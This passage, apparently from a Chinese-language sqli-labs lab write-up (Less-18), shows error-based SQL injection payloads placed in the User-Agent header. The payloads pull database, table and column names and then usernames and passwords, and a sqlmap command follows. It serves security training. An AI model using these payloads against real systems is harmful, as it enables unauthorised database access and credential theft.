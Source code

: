 ```
User-Agent: 1' and (select 1 from (select count(*),concat((SELECT schema_name FROM information_schema.schemata limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) or '1'='1
```

![image-20211207221557666](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100291.png)

#### 查询数据库中的表

```
User-Agent: 1' and (select 1 from (select count(*),concat((SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA="security" limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) or '1'='1
```

![image-20211207221710474](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100119.png)

#### 查表中的字段

```
User-Agent: 1' and (select 1 from (select count(*),concat((SELECT column_name FROM information_schema.columns where table_schema='security' and table_name='users' limit 0,1),floor (rand(0)*2))x from information_schema.tables group by x)a) or '1'='1
```

![image-20211207221759095](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100152.png)

#### 查数据

```
User-Agent: 1' and (select 1 from (select count(*),concat((select concat_ws(id,username,password) from users limit 1,1),floor (rand(0)*2))x from information_schema.tables group by x)a) or '1'='1
```

![image-20211207221922420](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100789.png)



### 2、sqlmap

从BurpSuite中把请求信息复制到txt文件中，把`User-Agent`的值设为*。

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100813.png" alt="image-20211207223810966" style="zoom:80%;" />

```cmd
python sqlmap.py -r Less-18.txt
```

其中：`-r`：sqlmap可以从一个文本文件中获取HTTP请求，这样就可以跳过设置一些其他参数（比如cookie，POST数据，等等）

![image-20211207223856641](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020100463.png)

之后的步骤同之前的sqlmap。



## 实验十九	基于头部的RefererPOST报错注入
